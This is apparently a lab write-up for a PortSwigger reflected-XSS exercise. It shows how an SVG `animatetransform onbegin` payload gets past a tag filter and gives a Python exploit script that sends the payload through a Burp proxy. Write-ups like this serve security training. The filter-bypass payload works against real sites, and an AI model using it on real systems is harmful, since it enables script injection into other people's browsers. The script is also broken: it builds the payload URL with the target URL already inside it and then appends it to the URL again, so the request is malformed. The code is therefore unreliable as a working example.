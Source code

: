 ```yaml
---
title: 'XSS Lab 16'
description: 'Exploiting XSS when common tags are blocked but SVG tags and events are allowed.'
---
```



## Reflected XSS with some SVG markup allowed

<div style="text-align: justify;">
  This lab demonstrates a simple reflected cross-site scripting (XSS) vulnerability where common HTML tags are blocked. However, certain SVG tags and attributes are not filtered properly, allowing us to execute JavaScript and trigger the `alert()` function.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- Standard payloads like `<img src=1 onerror=alert(1)>` are blocked.
- Using Burp Intruder, we test different tags and attributes from the XSS cheat sheet.
- Tags like `<svg>` and `<animatetransform>` are allowed.
- Among events, `onbegin` works with `<animatetransform>`.
- Final payload that triggers an alert:
```
<svg><animatetransform onbegin=alert(1)>
```

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

# Disable SSL warnings for Burp Suite
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Set Burp Suite proxy
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    # Check if Burp Suite is running and listening on the configured proxy.

    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def exploit_xss(url, payload):
    # Exploit XSS in search parameter.
        uri = f"/?search={payload}"
        res = requests.get(url + uri, verify=False, proxies=proxies)
        res.raise_for_status()
        session = requests.Session()
        res = session.get(url, verify=False, proxies=proxies)
        if "Congratulations" in res.text:
            print("[+] Lab solved 🎉")
            return True
        else:
            print("[-] lab not solved.")

def main():
    # Entry point of the script.

    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()

    # Step 1: Check Burp Suite
    check_burp()

    # Step 2: Define XSS payload
    payload = f"https://{url}/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E"

    # Step 3: Attempt exploitation
    print("[*] Attempting XSS...")
    if exploit_xss(url, payload):
        print("[+] XSS successful!")
    else:
        print("[-] XSS unsuccessful.")

if __name__ == "__main__":
    main()
```